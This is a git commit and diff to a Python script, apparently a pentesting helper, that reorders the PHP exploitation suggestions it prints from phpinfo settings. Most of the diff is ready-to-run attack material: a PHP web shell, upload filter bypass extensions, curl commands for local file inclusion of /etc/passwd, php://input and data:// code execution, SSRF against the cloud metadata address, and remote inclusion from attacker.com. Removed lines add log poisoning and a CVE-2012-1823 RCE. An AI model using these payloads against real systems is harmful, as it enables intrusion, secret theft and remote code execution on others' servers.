

refactor(suggestions): Improve attack suggestion ordering and stream validation
- Reordered exploitation suggestions by likelihood of success
- Added proper stream wrapper validation for PHP filter/input attacks
- Improved FTP attack instructions with server setup steps
- Updated attack chain suggestions for better flow
- Fixed stream-based attack validation to only show relevant attacks

Order priority:
1. File Upload (direct code execution)
2. LFI/File Stream (reliable, common)
3. PHP Stream attacks (if available)
4. Data Stream (requires specific conditions)
5. SSRF (environment dependent)
6. Compression attacks (more complex)
7. FTP (requires external setup)

diff --git a/phpinfo_attack_paths.py b/phpinfo_attack_paths.py
@@ -361,72 +361,99 @@ def generate_config_attack_mapping(config):
 
 def generate_exploitation_suggestions(config, streams, target_url):
     """
-    Generate focused exploitation suggestions with improved formatting.
+    Generate focused exploitation suggestions ordered by likelihood of success and impact.
+    Order priority:
+    1. File Upload (direct code execution)
+    2. LFI/File Stream (reliable, common)
+    3. PHP Stream attacks (if available)
+    4. Data Stream (requires specific conditions)
+    5. SSRF (environment dependent)
+    6. Compression attacks (more complex)
+    7. FTP (requires external setup)
     """
     suggestions = []
 
-    # 1. LFI Tests
-    if (config.get("allow_url_fopen", "").lower() == "on" or 
-        config.get("open_basedir", "").lower() in ["", "no value", "none"]):
-        suggestions.append(f"\n{Fore.MAGENTA}[+] LFI VECTORS{Style.RESET_ALL}")
-        suggestions.append(f"{Fore.YELLOW}Basic LFI Tests:{Style.RESET_ALL}")
+    # 1. File Upload (if enabled) - Most direct path to RCE
+    if config.get("file_uploads", "").lower() == "on":
+        suggestions.append(f"{Fore.LIGHTCYAN_EX}[+] FILE UPLOAD ATTACKS{Style.RESET_ALL}")
+        suggestions.append("1. Prepare shell.php:")
+        suggestions.append("     <?php system($_GET['cmd']); ?>")
+        suggestions.append("")
+        suggestions.append("2. Try these extensions:")
+        suggestions.append("     .php, .php.jpg, .php;.jpg, .php%00.jpg, .phtml")
+        suggestions.append("")
+        suggestions.append("3. Upload attempts:")
+        max_size = config.get("upload_max_filesize", "2M")
+        suggestions.append(f"     curl -F 'file=@shell.php' -F 'submit=1' '{target_url}'")
+        suggestions.append(f"     # Ensure file size is under found Max File Size: {max_size}")
+        suggestions.append("")
+
+    # 2. File Stream/LFI - Very common, often successful
+    if "file" in streams:
+        suggestions.append(f"{Fore.LIGHTCYAN_EX}[+] FILE STREAM/LFI ATTACKS{Style.RESET_ALL}")
+        suggestions.append("Basic LFI Tests:")
         suggestions.append(f"  curl '{target_url}?page=../../../etc/passwd'")
         suggestions.append(f"  curl '{target_url}?page=../../../proc/self/environ'")
+        suggestions.append("")
         
-        if "php" in streams:
-            suggestions.append("\n    PHP Filter LFI:")
-            suggestions.append(f"    curl '{target_url}?page=php://filter/convert.base64-encode/resource=index.php'")
-            suggestions.append(f"    curl '{target_url}?page=php://filter/convert.base64-encode/resource=config.php'")
-        
-        suggestions.append("\n    Log Poisoning:")
-        suggestions.append(f"    curl '{target_url}' -H '<?php system($_GET[\"cmd\"]); ?>'")
-        suggestions.append(f"    curl '{target_url}?page=../../../var/log/apache2/access.log&cmd=id'")
+        # If we have file uploads, combine with LFI
+        if config.get("file_uploads", "").lower() == "on":
+            suggestions.append("LFI + Upload Chain:")
+            upload_path = config.get("upload_tmp_dir", "/tmp")
+            suggestions.append(f"  curl '{target_url}?page={upload_path}/shell.php&cmd=id'")
+            suggestions.append("")
 
-    # 2. RFI Tests - If Enabled
-    if config.get("allow_url_include", "").lower() == "on":
-        suggestions.append(f"\n{Fore.MAGENTA}RFI Tests:{Style.RESET_ALL}")
-        suggestions.append("    Host this file on your server (shell.php):")
-        suggestions.append("    <?php system($_GET['cmd']); ?>")
-        suggestions.append("\n    Then try:")
-        suggestions.append(f"    curl '{target_url}?page=http://YOUR-IP/shell.php&cmd=id'")
-        
-        if "data" in streams:
-            suggestions.append("\n    Data Wrapper RFI:")
-            suggestions.append(f"    curl '{target_url}?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOz8%2B&cmd=id'")
+    # 3. PHP Stream Attacks - If specific wrappers available
+    if "php" in streams:
+        if "filter" in streams:
+            suggestions.append(f"{Fore.LIGHTCYAN_EX}[+] PHP FILTER ATTACKS{Style.RESET_ALL}")
+            suggestions.append("Source Code Disclosure:")
+            suggestions.append(f"  curl '{target_url}?page=php://filter/convert.base64-encode/resource=index.php'")
+            suggestions.append(f"  curl '{target_url}?page=php://filter/convert.base64-encode/resource=config.php'")
+            suggestions.append("")
 
-    # 3. File Upload + LFI Chain
-    if config.get("file_uploads", "").lower() == "on":
-        suggestions.append(f"\n{Fore.MAGENTA}File Upload + LFI Chain:{Style.RESET_ALL}")
-        suggestions.append("    1. Create shell.php:")
-        suggestions.append("    <?php system($_GET['cmd']); ?>")
-        suggestions.append("\n    2. Try uploading with different extensions:")
-        suggestions.append("    .php, .php.jpg, .php;.jpg, .php%00.jpg, .php.jpeg, .php5, .phtml")
-        suggestions.append("\n    3. If upload successful, try including via LFI:")
-        upload_path = config.get("upload_tmp_dir", "/tmp")
-        suggestions.append(f"    curl '{target_url}?page={upload_path}/shell.php&cmd=id'")
+        if "input" in streams:
+            suggestions.append("PHP Input Stream:")
+            suggestions.append(f"  curl '{target_url}?page=php://input' -d '<?php system(\"id\"); ?>'")
+            suggestions.append("")
 
-    # 4. PHP Object Injection (if vulnerable version detected)
-    if "phar" in streams and any(v in config.get("PHP_Version", "") for v in ["5.", "7.0", "7.1"]):
-        suggestions.append(f"\n{Fore.MAGENTA}PHP Object Injection via PHAR:{Style.RESET_ALL}")
-        suggestions.append("    1. Create malicious PHAR file with PHPGGC")
-        suggestions.append("    2. Upload it with image extension (exploit.jpg)")
-        suggestions.append(f"    3. curl '{target_url}?page=phar://path/to/uploads/exploit.jpg'")
+    # 4. Data Stream - Requires proper configuration
+    if "data" in streams:
+        suggestions.append(f"{Fore.LIGHTCYAN_EX}[+] DATA STREAM ATTACKS{Style.RESET_ALL}")
+        suggestions.append("Code Execution via Data Stream:")
+        suggestions.append(f"  curl '{target_url}?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOz8%2B'")
+        suggestions.append("")
 
-    # 5. Command Injection (if dangerous functions enabled)
-    if config.get("disable_functions", "").lower() in ["", "no value"]:
-        suggestions.append(f"\n{Fore.MAGENTA}Command Injection Tests:{Style.RESET_ALL}")
-        suggestions.append("    Try these PHP functions:")
-        suggestions.append("    system(), exec(), shell_exec(), passthru()")
-        suggestions.append("\n    Example payloads:")
-        suggestions.append(f"    curl '{target_url}?cmd=system(\"id\");'")
-        suggestions.append(f"    curl '{target_url}' --data 'cmd=passthru(\"id\");'")
+    # 5. SSRF - Environment dependent
+    if any(s in streams for s in ["http", "https"]):
+        suggestions.append(f"{Fore.LIGHTCYAN_EX}[+] SSRF ATTACKS{Style.RESET_ALL}")
+        suggestions.append("Internal Service Discovery:")
+        suggestions.append(f"  curl '{target_url}?page=http://localhost/internal-endpoint'")
+        suggestions.append(f"  curl '{target_url}?page=https://169.254.169.254/latest/meta-data/'")
+        suggestions.append("")
 
-    # 6. CGI/FastCGI RCE (if detected)
-    if config.get("Server_API", "").lower().startswith(("cgi", "fast")):
-        suggestions.append(f"\n{Fore.MAGENTA}CGI/FastCGI RCE:{Style.RESET_ALL}")
-        suggestions.append("    Try PHP-CGI RCE (CVE-2012-1823):")
-        suggestions.append(f"    curl '{target_url}?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input' -d '<?php system(\"id\"); ?>'")
-        suggestions.append(f"    curl '{target_url}?-s' # Source code disclosure")
+    # 6. Compression Attacks - More complex, specific conditions
+    if any(s in streams for s in ["zip", "compress.zlib", "compress.bzip2"]):
+        suggestions.append(f"{Fore.LIGHTCYAN_EX}[+] COMPRESSION ATTACKS{Style.RESET_ALL}")
+        suggestions.append("Zip/Compression Wrapper:")
+        suggestions.append("  1. Create payload:")
+        suggestions.append("     zip payload.zip shell.php")
+        suggestions.append(f"  2. Include: curl '{target_url}?page=zip://payload.zip%23shell.php'")
+        suggestions.append("")
+
+    # 7. FTP - Requires external setup, less reliable
+    if any(s in streams for s in ["ftp", "ftps"]):
+        suggestions.append(f"{Fore.LIGHTCYAN_EX}[+] FTP ATTACKS{Style.RESET_ALL}")
+        suggestions.append("FTP Inclusion (requires setup):")
+        suggestions.append("  1. Start FTP server:")
+        suggestions.append("     python3 -m pyftpdlib -p 21")
+        suggestions.append("")
+        suggestions.append("  2. Host malicious file:")
+        suggestions.append("     echo '<?php system($_GET[\"cmd\"]); ?>' > shell.php")
+        suggestions.append("")
+        suggestions.append("  3. Test inclusion:")
+        suggestions.append(f"     curl '{target_url}?page=ftp://attacker.com/shell.php'")
+        suggestions.append("")
 
     return suggestions
 
